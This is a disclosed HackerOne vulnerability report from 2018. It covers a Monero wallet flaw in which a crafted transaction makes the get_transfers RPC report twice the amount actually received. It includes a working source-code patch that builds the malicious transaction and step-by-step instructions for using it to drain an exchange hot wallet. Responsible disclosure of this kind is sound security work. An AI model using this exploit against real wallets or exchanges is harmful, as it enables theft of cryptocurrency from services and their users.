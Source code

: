 # Attcker can trick monero wallet into reporting it recived twice as much with alternative tx_keypubs

## Report Details
- **Report ID**: 379049
- **URL**: https://hackerone.com/reports/379049
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-07-08T00:06:19.804Z
- **Disclosed**: 2018-07-27T21:28:34.494Z

## Reporter
- **Username**: phiren
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: monero

## Vulnerability Information
**Summary:** multiple identical  tx_pub_keys were patched, but you can still use alternative tx_pub_keys to get the same result.

**Description:** An attacker can craft an XMR transaction which causes the receiving wallet to report that it received twice as much XMR as the attacker actually sent.

The balance of the wallet isn't effected, so a personal user probably won't be ticked, however the doubled amount is reported over the get_transfers RPC call.

This is especially devastating for automated wallets, such as cryptocurrency exchanges that rely on RPC calls returning the correct result. 

This attack is a slight modification of the previous flaw that was patched in pull request 3985. That flaw allows unlimited multiplication of funds, instead of just a 2x multiplication that this attack allows.

This attack leverages the alternative tx_pub_keys feature introduced with subaddresses. extra data is arranged so it contains:

1. A dummy tx_pub_key
2. An array of alternative tx_pub_keys entries all containing the legitimate txkey for each output.
3. The legitimate tx_pub_key

The process_new_transaction function will:

1. Grab the dummy tx_pub_key
2. Grab the array of alternative tx_pub_keys
3. Scan all the outputs with both the dummy and alternative tx_pub_keys. Which will match on the legitimate tx_pub_keys.
4. Loop back to the start, grab the legitimate tx_pub_key
5. Since the alternative keys were not added into the public_keys_seen set, it scans all the outputs again.
6. Hacked.
 
## Releases Affected:

 * Monero master ebf2818ab5f42b10745cb99d07920f3197c3d914
 * Monero 0.12.3.0 release tag
 * Probably any Monero release since subaddresses were introduced

## Steps To Reproduce:

  1. On the attacking wallet, Patch cryptonote_tx_utils.cpp
```
    diff --git a/src/cryptonote_core/cryptonote_tx_utils.cpp b/src/cryptonote_core/cryptonote_tx_utils.cpp
    index 071ce591..3835690a 100644
    --- a/src/cryptonote_core/cryptonote_tx_utils.cpp
    +++ b/src/cryptonote_core/cryptonote_tx_utils.cpp
    @@ -351,9 +351,15 @@ namespace cryptonote
           txkey_pub = rct::rct2pk(hwdev.scalarmultBase(rct::sk2rct(tx_key)));
         }
         remove_field_from_tx_extra(tx.extra, typeid(tx_extra_pub_key));
    -    add_tx_pub_key_to_extra(tx, txkey_pub);
    +    crypto::public_key dummy_key;
    +    add_tx_pub_key_to_extra(tx, dummy_key);
    
         std::vector<crypto::public_key> additional_tx_public_keys;
    +    for (size_t i = 0; i < destinations.size(); i++)
    +      additional_tx_public_keys.push_back(txkey_pub); // One for each output.
    +
    +    add_additional_tx_pub_keys_to_extra(tx.extra, additional_tx_public_keys);
    +    add_tx_pub_key_to_extra(tx, txkey_pub);
    
         // we don't need to include additional tx keys if:
         //   - all the destinations are standard addresses
    @@ -421,9 +427,9 @@ namespace cryptonote
           output_index++;
           summary_outs_money += dst_entr.amount;
         }
    -    CHECK_AND_ASSERT_MES(additional_tx_public_keys.size() == additional_tx_keys.size(), false, "Internal error creating additional public keys");
    +    //CHECK_AND_ASSERT_MES(additional_tx_public_keys.size() == additional_tx_keys.size(), false, "Internal error creating additional public keys");
    
    -    remove_field_from_tx_extra(tx.extra, typeid(tx_extra_additional_pub_keys));
    +    //remove_field_from_tx_extra(tx.extra, typeid(tx_extra_additional_pub_keys));
    
         LOG_PRINT_L2("tx pubkey: " << txkey_pub);
         if (need_additional_txkeys)

  2\. Compile wallet
  3\. Do a regular transfer to an exchange wallet.
  4\. Profit.

## Impact

By depositing and withdrawing the same coins, doubling each time; The attacker could eventually steal all XMR from an exchange hotwallet.

## Attachments
No attachments
